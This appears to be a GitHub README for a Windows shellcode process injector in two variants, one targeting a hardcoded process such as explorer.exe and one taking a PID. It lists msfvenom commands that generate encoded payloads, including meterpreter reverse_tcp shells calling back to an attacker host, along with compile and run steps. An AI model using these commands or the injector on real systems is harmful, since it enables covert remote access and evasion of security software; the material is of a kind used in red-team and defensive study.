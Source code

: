 # Shellcode Process Injector

This project contains two variants of a shellcode injector for Windows that injects shellcode into a specified target process. The two versions differ in how they identify the target process for injection: one uses a hardcoded process name, and the other allows the user to specify a process ID (PID) at runtime.

## Variants

1. **Shellcode_ProcessInjector_auto.c**
   - This variant injects shellcode into a target process specified by changing the `processName` variable in the code.
   - Example target process: `explorer.exe`
   - Shellcode used to open `calc.exe`:
     ```c
     //msfvenom -p windows/x64/exec cmd=calc.exe -f c -e x64/zutto_dekiru
     ```
   - Shellcode for `meterpreter/reverse_tcp` (64-bit):
     ```c
     //msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

2. **Shellcode_ProcessInjector_manual.c**
   - This variant allows the user to specify the target process at runtime by entering its PID.
   - Example shellcode used to open `calc.exe` on a 32-bit application:
     ```c
     //msfvenom -p windows/exec cmd=calc.exe -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
   - Shellcode for `meterpreter/reverse_tcp` (32-bit):
     ```c
     //msfvenom -p windows/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x86/shikata_ga_nai
     ```
   - Shellcode for `meterpreter/reverse_tcp` (64-bit):
     ```c
     //msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

## Requirements

- Windows OS
- Visual Studio or a compatible C compiler
- `msfvenom` from the Metasploit Framework

## Compilation

To compile the variants, use the following command:

```bash
gcc -o Shellcode_ProcessInjector_auto Shellcode_ProcessInjector_auto.c
gcc -o Shellcode_ProcessInjector_manual Shellcode_ProcessInjector_manual.c

## Usage

### Shellcode_ProcessInjector_auto
1. Open the source file and modify the `processName` variable to target the desired process.
2. Compile the program.
3. Run the executable with administrative privileges.

### Shellcode_ProcessInjector_manual
1. Compile the program.
2. Run the executable and enter the PID of the target process when prompted.

## Notes
- Ensure that the target process is running before injecting shellcode.
- Use caution when running this program as it injects code into another process, which can lead to unexpected behavior.
- This code is intended for educational purposes only. Ensure you have permission to test on any target processes.

